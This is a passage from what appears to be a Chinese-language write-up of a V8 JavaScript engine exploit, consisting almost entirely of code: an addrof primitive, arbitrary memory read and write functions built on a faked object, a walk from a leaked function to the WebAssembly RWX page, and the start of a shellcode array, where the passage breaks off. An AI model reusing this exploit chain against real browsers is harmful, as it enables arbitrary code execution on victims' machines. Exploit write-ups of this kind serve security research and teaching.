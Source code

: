 ```
`}`//

function addrof(obj)//传入obj型  返回浮点
`{`
    let ret = addrof_opt(obj); 
    // %DebugPrint(ret);
    return ret[0];
`}`
```

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3.4"></a>3.4

任意地址读写

```
function abread(addr)//参数整形　　返回值整形
`{`
    let adddr = addrof(fake_array);


    let test = fakeObj(i2f(f2i(adddr)-0x20));//这里的-0x..与上面fake_array的大小有关
    // %DebugPrint(test);//这是个obj　不能print

    // readline();
    fake_array[2]=i2f(addr-0x10);
    return f2i(test[0]);
`}`

function abwrite(addr,data)//参数为整
`{`
    let adddr = addrof(fake_array);


    let test = fakeObj(i2f(f2i(adddr)-0x20));
    fake_array[2] = i2f(addr-0x10);
    test[0] = i2f(data);
`}`
```

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3.5"></a>3.5

利用backstore写wasm_rwx

```
var share_info = abread(leak_f + 0x18);
console.log("[*] share_info ====&gt; "+hex(share_info));


var wasm_data = abread(share_info+8);
console.log("[*] wasm_data ====&gt; "+hex(wasm_data));

var wasm_instance = abread(wasm_data+16);
console.log("[*] wasm_instance ====&gt; "+hex(wasm_instance));

var wasm_rwx = abread(wasm_instance+0x88);//这里都没有写－１　　因为obj
console.log("[*] wasm_rwx ====&gt; "+hex(wasm_rwx));
//




var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
```